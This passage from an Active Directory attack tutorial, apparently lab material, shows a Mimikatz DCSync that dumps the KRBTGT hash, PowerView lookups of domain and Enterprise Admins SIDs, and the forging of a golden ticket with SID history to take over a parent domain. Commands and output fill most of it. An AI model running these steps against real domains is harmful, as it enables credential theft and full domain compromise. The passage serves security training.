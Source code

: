 
Since we have compromised the child domain, we can log in as a Domain Admin or similar and perform the DCSync attack to obtain the NT hash for the KRBTGT account.
#### Obtaining the KRBTGT Account's NT Hash using Mimikatz
```powershell
PS C:\htb>  mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
```

```powershell
SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/1/2021 11:21:33 AM
Object Security ID   : S-1-5-21-2806153819-209893948-922872689-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 9d765b482771505cbe97411065964d5f
    ntlm- 0: 9d765b482771505cbe97411065964d5f
    lm  - 0: 69df324191d4a80f0ed100c10f20561e
```

#### Using Get-DomainSID
```powershell
PS C:\htb> Get-DomainSID

S-1-5-21-2806153819-209893948-922872689
```


#### Obtaining Enterprise Admins Group's SID using Get-DomainGroup
```powershell
PS C:\htb> Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

distinguishedname                                       objectsid                                    
-----------------                                       ---------                                    
CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519
```
>`We could also do this with the [Get-ADGroup](https://docs.microsoft.com/en-us/powershell/module/activedirectory/get-adgroup?view=windowsserver2022-ps) cmdlet with a command such as `Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"`.


#### Creating a Golden Ticket with Mimikatz
```powershell
PS C:\htb> mimikatz.exe

mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```
